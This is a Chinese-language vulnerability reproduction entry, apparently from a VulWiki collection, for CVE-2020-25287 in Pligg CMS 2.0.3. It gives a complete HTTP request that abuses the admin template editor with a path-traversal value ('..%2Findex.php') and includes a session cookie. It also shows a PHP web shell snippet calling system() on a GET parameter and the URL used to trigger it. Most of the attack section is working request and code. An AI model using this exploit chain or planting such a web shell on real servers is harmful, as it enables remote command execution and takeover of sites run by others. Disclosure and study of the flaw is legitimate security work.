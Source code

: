 （CVE-2020-25287）Pligg CMS 2.0.3 远程命令执行漏洞
==================================================

一、漏洞简介
------------

该漏洞源于模板编辑器可以编辑任何文件。攻击者可利用该漏洞执行任意命令。

二、漏洞影响
------------

Pligg CMS 2.0.3

三、复现过程
------------

### POC

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-25287)PliggCMS2.0.3远程命令执行漏洞/media/rId25.png)

转到`/admin/admin_editor.php`拦截请求并将路径更改为文件。

例如访问目录中的`index.php`文件：

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-25287)PliggCMS2.0.3远程命令执行漏洞/media/rId26.png)

    POST /admin/admin_editor.php HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 33
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    Origin: http://kliqqi
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Referer: http://www.0-sec.org/admin/admin_editor.php
    Accept-Encoding: gzip, deflate
    Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
    Cookie: panelState=CollapseManage%7CCollapseSettings%7CCollapseTemplate; PHPSESSID=lfkc3gtrv5o1golmt5md3; mnm_user=Admin; mnm_key=QWRtaW46MjI0R2dEVTAxZncxZzpl
    Connection: close

    the_file=..%2Findex.php&open=Open

只需单击"在浏览器中显示响应"，然后编辑文件即可

![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-25287)PliggCMS2.0.3远程命令执行漏洞/media/rId27.png)

例如 ：

      if($_GET['cmd']){
        system($_GET['cmd']);
    }

最后访问`website.fr?cmd=dir`

![4.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-25287)PliggCMS2.0.3远程命令执行漏洞/media/rId28.png)
